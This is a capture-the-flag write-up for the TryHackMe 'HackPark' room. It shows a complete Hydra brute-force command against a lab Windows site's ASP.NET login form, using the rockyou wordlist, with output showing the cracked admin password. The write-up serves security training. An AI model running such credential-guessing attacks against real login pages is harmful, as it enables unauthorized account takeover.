 ```yaml
---
layout: post
title: HackPark
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap]
---
```


![HackPark](/assets/hackpark.png){: .right }{: w="200" h="200" }

## Walkthrough
[https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)

**Difficulty level:** Easy

## Task 1: Deploy the vulnerable Windows machine 

Connect to our network and deploy this machine. Please be patient as this machine can take up to 5 minutes to boot! You can test if you are connected to our network, by going to our access page. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

This room will cover brute-forcing an accounts credentials, handling public exploits, using the Metasploit framework and privilege escalation on Windows.

### Questions

Q1.Deploy the machine and access its web server.

> "No answer needed"

Q2.Whats the name of the clown displayed on the homepage?

> "Pennywise"

### MyWalk

Just using reverse image on google if you don't recognize the famous clown immediately

## Task 2: Using Hydra to brute-force a login

Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful Kali Linux machine and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

### Questions

Q1. We need to find a login page to attack and identify what type of request the form is making to the webserver. Typically, web servers make two types of requests, a GET request which is used to request data from a webserver and a POST request which is used to send data to a server.

You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through BurpSuite (other HTTP methods can be found here).

What request type is the Windows website login form using?

> "****"

Q2. Now we know the request type and have a URL for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks:

```bash
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```
{: .nolineno }

Guess a username, choose a password wordlist and gain credentials to a user account!


> "********"

### MyWalk

The format is this:  
hydra -l <username> -P <wordlist> <targetIP> http-post-form <login request pattern>

We'll try "admin" as user  
wordlist will be "/usr/share/wordlists/rockyou.txt"
The login request pattern parameter its the most difficult part.  
The format parameter is:  
"<path to login form>:<body, with magic strings ^USER^ and ^PASS^>:<pattern that appears in an invalid login>"  
The path to the login form is: "/Account/login.aspx"  
The pattern that appears in case of invalid login is the text that appears when a login fails. Texting a random login it shows "Login failed" on the page.  
For the body, we’ll need to go back to Inspect Element and grab the request payload.

Here is our hydra command:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.148.20 http-post-form "/Account/login.aspx:__VIEWSTATE=0PmFPbjr6L0ykVNVkOxFjCTUBuJwS0RkLnJpLBxGcxaPxYXEtGkcIwrCYoLqaMI8AROYvejb0%2F1iu2b6Zp%2FsiuegsUBVgt4Z%2FC8KQMBwW8fQRLObTDBwY%2F0qxd3z8QPZ%2Ff7EFYBi7iWr9N%2Fgdj7oN5W9AW9dMG39xY%2BokbKnDL87oOKl%2Fok5jk2Hi%2BHOIrL3cRx20gPhijGqneg%2FIamc7eCAqDlFqbmhUJsJ96TV9u7BB34TkuweWvcZDSMUNtzW0ONZWCH0mkQZ2VqQXGoNZEogUADQGoqy72wAokMNLJdQpFjWYkUlWQhJkED7FRJ7KAJCuSHNx7nzQj3Tu18zrJ5nTMxbJPQk%2Fpf9CHiq1ro42yQt&__EVENTVALIDATION=kSawRteG%2BddgXQlXhXu9hPgtdSXb%2FJugk%2FOmNlPkOAFmSJLSTyqgh1RHT82QvprzeuLSrjIC2zeJaUmRE5StSck0hFX4dUyrctJXnXSeh%2BLrru6Jn4YfqahgAruVPvxuH%2BtYEPx5bUHiWMd%2Btf%2Fy7Ux7CmhqmUo%2BAG%2BJ3t0TtqxiV9kD&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-02-24 11:40:11
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.148.20:80/Account/login.aspx:__VIEWSTATE=0PmFPbjr6L0ykVNVkOxFjCTUBuJwS0RkLnJpLBxGcxaPxYXEtGkcIwrCYoLqaMI8AROYvejb0%2F1iu2b6Zp%2FsiuegsUBVgt4Z%2FC8KQMBwW8fQRLObTDBwY%2F0qxd3z8QPZ%2Ff7EFYBi7iWr9N%2Fgdj7oN5W9AW9dMG39xY%2BokbKnDL87oOKl%2Fok5jk2Hi%2BHOIrL3cRx20gPhijGqneg%2FIamc7eCAqDlFqbmhUJsJ96TV9u7BB34TkuweWvcZDSMUNtzW0ONZWCH0mkQZ2VqQXGoNZEogUADQGoqy72wAokMNLJdQpFjWYkUlWQhJkED7FRJ7KAJCuSHNx7nzQj3Tu18zrJ5nTMxbJPQk%2Fpf9CHiq1ro42yQt&__EVENTVALIDATION=kSawRteG%2BddgXQlXhXu9hPgtdSXb%2FJugk%2FOmNlPkOAFmSJLSTyqgh1RHT82QvprzeuLSrjIC2zeJaUmRE5StSck0hFX4dUyrctJXnXSeh%2BLrru6Jn4YfqahgAruVPvxuH%2BtYEPx5bUHiWMd%2Btf%2Fy7Ux7CmhqmUo%2BAG%2BJ3t0TtqxiV9kD&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed
[80][http-post-form] host: 10.10.148.20   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
```
{: .nolineno }
